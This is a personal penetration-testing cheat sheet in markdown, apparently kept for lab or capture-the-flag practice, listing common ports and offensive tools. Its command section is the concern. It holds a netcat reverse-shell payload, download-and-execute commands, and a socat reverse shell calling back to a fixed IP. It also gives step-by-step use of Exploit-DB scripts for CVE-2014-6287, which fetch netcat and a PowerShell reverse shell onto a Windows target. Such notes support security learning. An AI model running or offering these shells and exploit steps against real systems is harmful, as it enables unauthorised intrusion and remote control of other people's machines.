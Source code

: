# CheatSheet

## Ports
- 20, 21 / FTP
- 22 / SSH
- 23 / Telnet
- 25 / SMTP
- 53 / DNS
- 80 / HTTP
- 110 / POP3
- 443 / HTTPS
- 139, 445 / SMB
- NFS / 2049
- MySQL / 3306

## Tools
- [Rustscan](rustscan.md)
- [Nmap](nmap.md)
- [MSFVenom](msfvenom.md)
- [Gobuster](gobuster.md)
- [Hydra](hydra.md)
- [John the Ripper](john.md)
- [Hashcat](hashcat.md)

## Exploit by protocol
- [SSH](ssh.md)
- [SMB](smb.md)
- [Telnet](telnet.md)
- [NFS](nfs.md)
- [FTP](ftp.md)
- [SMTP](smtp.md)
- [MySQL](mysql.md)

## Useful Commands
Generate shell payload
```
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.4.49.251 4444 >/tmp/f" > shell.sh
```

Download file from local Web server on kali
```
export dlfile=[FILE NAME]; wget http://10.4.49.251/${dlfile} -O /tmp/${dlfile}; chmod +x /tmp/${dlfile}
```

### Socat
・Target Host  
```
wget http://10.4.49.251/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.4.49.251:4444
```

・Attacker (Kali)
```
socat file:`tty`,raw,echo=0 TCP-L:4444
```

## Exploit DB (Windows)
### CVE : 2014-6287 ([39161](https://www.exploit-db.com/exploits/39161))
You can execute arbitrary commands on the remote Windows host.

Download the python script to kali
```
wget https://www.exploit-db.com/raw/39161 -O /tmp/39161.py
```

Download netcat binary file.  
39161.pyではあらかじめローカルIP、ポートを指定する必要あり。指定したアドレスから、netcatの実行可能ファイルをnc.exeという名前でダウンロードする仕様。そして、ダウンロードしたnc.exeを実行し、そのローカルIP、ポートにコネクトバックする（リバースシェル）
```
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe -O ~/Downloads/steel/nc.exe
```

Start python web server in kali
```
cd ~/Downloads/steel/
python3 -m http.server 80
```

Start netcat listener
```
rlwrap nc -lvnp ${lport}
```

The following command needs to be executed TWICE.
Download nc.exe first, and connects back to the listner on Kali second time. 
```
python 39161.py $rhost [RPORT]
```

### CVE : 2014-6287 ([49125](https://www.exploit-db.com/exploits/49125))
You can execute arbitrary commands on the remote Windows host.

Download the python script to kali
```
wget https://www.exploit-db.com/raw/49125 -O /tmp/49125.py
```

Download the powershell script to kali.
Local IP and port in the script needs to be changed.
```
wget https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1 -O ~/Downloads/steel/mini-reverse.ps1
```

Start python web server in kali
```
cd ~/Downloads/steel/
python3 -m http.server 80
```

Start netcat listener
```
rlwrap nc -lvnp ${lport}
```

Execute the script. Execute the commands passed as the third argument.
```
cd /tmp
python3 49125.py $rhost [RPORT] "C:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe -c wget 'http://${lhost}/mini-reverse.ps1' -outfile 'C:\Users\Bill\Desktop\mini-reverse.ps1'; C:\Users\Bill\Desktop\mini-reverse.ps1" 
```

## Reference

Exploit DB  
https://www.exploit-db.com/

MSF Console Commands  
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

Meterpreter Commands  
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

GTFOBins  
https://gtfobins.github.io/

PayloadsAllTheThings / Reverse Shell Cheat Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

PayloadsAllTheThings / Linux - Privilege Escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#find-suid-binaries

CrackStation  
https://crackstation.net/

Hash Analyzer  
https://www.tunnelsup.com/hash-analyzer/

Upgrading Simple Shells to Fully Interactive TTYs  
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
